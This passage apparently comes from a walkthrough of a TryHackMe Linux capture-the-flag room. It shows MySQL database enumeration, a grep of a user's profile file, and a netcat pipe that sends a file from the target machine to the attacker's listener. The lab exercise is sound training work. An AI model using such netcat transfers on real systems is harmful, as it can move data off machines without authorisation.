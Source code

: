 ### flag31
```
alice@ip-10-10-107-144:~$ mysql -u root -p
Enter password: 
[...]
mysql> show databases;
+-------------------------------------------+
| Database                                  |
+-------------------------------------------+
| information_schema                        |
| database_{flag}                           |
| mysql                                     |
| performance_schema                        |
| sys                                       |
+-------------------------------------------+
5 rows in set (0.02 sec)
```

### bonus flag

```
mysql> use database_{flag}
[...]
mysql> show tables;
+-----------------------------------------------------+
| Tables_in_database_{flag} |
+-----------------------------------------------------+
| flags                                               |
+-----------------------------------------------------+
1 row in set (0.00 sec)

mysql> SELECT * FROM flags;
+----+----------------------------------+
| id | flag                             |
+----+----------------------------------+
|  1 | {flag}							|
+----+----------------------------------+
1 row in set (0.00 sec)
```
### flag32

Listen to the file.

```
root@kali:~/Security/TryHackMe/linuxctf#  nc -nvlp 800 > flag32.mp3

alice@ip-10-10-107-144:~$ nc 10.2.37.2 800 < flag32.mp3
```

### flag33

```
bob@ip-10-10-107-144:~$ cat .profile | grep 33
#Flag 33: {flag}
```
